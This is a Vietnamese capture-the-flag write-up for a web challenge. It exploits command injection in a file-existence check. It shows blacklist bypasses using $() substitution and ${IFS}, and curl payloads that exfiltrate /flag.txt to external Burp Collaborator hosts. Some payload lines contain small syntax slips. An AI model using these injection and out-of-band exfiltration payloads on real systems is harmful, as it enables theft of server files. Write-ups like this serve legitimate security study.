 https://battle.cookiearena.org/challenges/web/the-existed-file

1.	Phân tích code source

![1](./image/34.png)

-	Phương thức phải là phương thức POST thì giá trị của biến file_path mới được thực hiện trong lệnh shell
-	Tiếp đến là blacklist đã được fill hết các kí tự toán tử
-	Hàm command chỉ có ls nhưng ta vẫn có thể thực hiện được payload
-	Kết quả hiển thị ra màn hình chỉ bao gồm File is existed! Hoặc File is not existed! 
Tức là ta sẽ phải sử dụng kĩ thuật OOB lấy file flag.txt sang một server khác

2.	Bắt đầu thử các payload

- Vì các kí tự toán tử đều đã được fill hết kể cả backtick command nên ta sẽ sử dụng $(injection command)
-	Ta thử với payload: $(/flag.txt) để kiểm tra xem có tồn tại file ko 

![1](./image/35.png)

có tồn tai file vậy là $() hoạt động 

-	Giờ ta sẽ phải gửi giá trị của file flag.txt sang server burp collabrator
Ta có cú pháp để gửi với lệnh curl 
    - curl -X POST -F "file=@/duong/dan/den/flag.txt" http://dia-chi-may-chu-cua-ban/duong-dan-nhan-file
  -	Với cú pháp trên ta có payload: $ (curl$ -X POST -F "file=@ /flag.txt" http://akyj4om6e5xccygmgl3sakiet5zwnmbb.oastify.com) 
  -	Nhưng ta cũng cần phải bypass khoảng trống nữa ta sử dụng {IFS} là biến môi trường được sử dụng để xác định ký tự phân tách được sử dụng để tách các phần của một lệnh hoặc đối số. Giá trị mặc định của biến này là một khoảng trắng, tab hoặc ký tự xuống dòng. Tuy nhiên nó có thể được đặt thành bất kỳ ký tự nào khác.
  -	Giờ ta sửa lại payload: $ (curl${IFS}-X POST{IFS}-F{IFS}"file=@/flag.txt"{IFS}http:// b4gkop67y6hdwz0n0mntul2fd6jx7ovd.oastify.com)

![1](./image/36.png)
- Có tồn tại file và giờ vào burp collaborator để nhận flag
  
![1](./image/37.png)